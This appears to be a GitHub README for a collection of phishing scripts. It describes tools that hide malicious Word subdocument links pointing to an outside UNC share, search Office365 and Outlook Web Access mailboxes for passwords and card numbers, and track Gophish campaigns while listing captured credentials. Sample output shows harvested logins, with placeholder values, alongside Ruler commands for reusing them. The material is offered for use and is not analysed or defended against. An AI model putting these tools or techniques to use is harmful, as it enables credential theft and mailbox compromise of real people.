 # phishing-scripts
Some miscellaneous phishing scripts

| Script | Description |
| --- | --- |
| refLinksToWhite.ps1 | This script is to be used with 'subdoc_injector.py' as mentioned in https://rhinosecuritylabs.com/research/abusing-microsoft-word-features-phishing-subdoc/. The script will change the color of Subdoc reference link to 'white' and saves it<br>Example: .\test.ps1 z:\tmp\test.docx \\1.1.1.1\docs\ |
| o365.py | This script search/download emails/attachments matching keywords from Office365 email accounts|  
| gophishauto.py | This script monitors Gophish campaigns and sends out a Slack/Pushover notification when a set of credentials is captured.<br>It displays some statics from the campaign (e.g % of users who read the email/clicked the link/entered credentials as well as who they are).<br> It also displays the list of credentials captured so far.<br>It also tries to determine the OS used by the users based on the User Agent information [some minor bugs pending to be fixed]|
| owaDump<br>https://github.com/milo2012/owaDump | Logins into Outlook Web Access servers and search Email Accounts (OWA) for Passwords, PAN numbers as well as other Keywords|
  
  
  
  
**Sample output from gophishauto.py**
```
$  python gophishauto3.py -a 212345436346 -i 192.168.0.181 -p 3333 --ssl -n 14 

*** Results from Gophish Campaign - Company1 ***
[*] List of users who read the email
[+] Campaign Status - Company1
Total Targets: 10 (100%) 
Email Unread:  4 (40%)
Email Opened:  6 (60%)
Clicked Link:  3 (30%)
Credentials Captured: 2 (20%)

[+] Credentials Captured from Gophish
Email                               Username                            Password
----------------------------------  ----------------------------------  ------------
xxx@yahoo.com     		    xxx@yahoo.com    			Password1
yyy@yahoo.com   		    yyy@yahoo.com   			Password1

[+] Ruler
./ruler-osx64   --email xxx@yahoo.com -u xxx@yahoo.com -p 'Password1' c
./ruler-osx64   --email yyy@yahoo.com -u yyy@yahoo.com -p 'Password1' c

[*] List of users who read the email
aaa@yahoo.com
bbb@yahoo.com
ccc@yahoo.com
ddd@yahoo.com

[+] List of users who click the link
aaa@yahoo.com
bbb@yahoo.com
ccc@yahoo.com

[+] Unique Browser User Agents (OS Matching)
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36 **[Mac OS X 10.12.6]**
Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 **[Windows 7]**

[+] Browser User Agents
----------------------------------  ------------------------------------------------------------------------------------------------------------------------
xxx@yahoo.com     Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
yyy@yahoo.com  	  Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36
----------------------------------  ------------------------------------------------------------------------------------------------------------------------
```
